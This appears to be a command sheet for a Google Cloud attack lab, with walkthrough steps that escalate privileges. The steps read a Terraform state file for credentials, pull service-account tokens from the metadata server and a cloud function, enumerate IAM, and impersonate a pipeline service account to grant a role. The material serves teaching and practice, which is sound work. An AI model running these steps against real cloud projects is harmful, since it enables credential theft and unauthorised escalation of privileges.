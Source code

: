 # Commands

<details>
  <summary>***** Module 2 *****</summary>

## Module 2

read state file
#####
    gsutil cat gs://file-uploads-$PROJECT_ID/infrastructure_config.tfstate

  <details>
    <summary>Walkthrough Module 2</summary>
    
  ssh into vm
  #####
    ssh -i <private key file> alice@<compute instance IP> 

  </details>

</details>

#

<details>
  <summary>***** Module 3 *****</summary>

## Module 3

show VM service account
#####
    gcloud auth list

background: metadata server
#####
    curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"

demonstrate limited access scopes
#####
    gcloud compute instances list

show access scopes from tokeninfo endpoint
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

list storage buckets from VM
#####
    gsutil ls

  <details>
    <summary>Walkthrough Module 3</summary>

  list function source code bucket
  #####
      gsutil ls gs://cloud-function-bucket-module3

  read source code
  #####
      gsutil cat gs://cloud-function-bucket-module3/main.py

  execute function invocation script
  #####
      ./invoke_monitoring_function.sh

  extract command to get function token
  #####
    curl -s -X POST https://$LOCATION-$PROJECT_ID.cloudfunctions.net/monitoring-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

  save the new token in env var and check access scopes
  #####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$TOKEN
    
  </details>

</details>

#

<details>
  <summary>***** Challenge 5 *****</summary>

## Challenge 5

set token as env var
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Get project permissions
#####
    gcloud projects get-iam-policy $PROJECT_ID

List the other service accounts on this project:
#####
    gcloud iam service-accounts list

Describe role
#####
    gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID

Describe bindings on SA
#####
    gcloud iam service-accounts get-iam-policy <terraform service account>

  <details>
    <summary>Walkthrough Challenge 5</summary>
  
  impersonate and set binding
  #####
    gcloud projects add-iam-policy-binding $PROJECT_ID --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>
  
  </details>

</details>
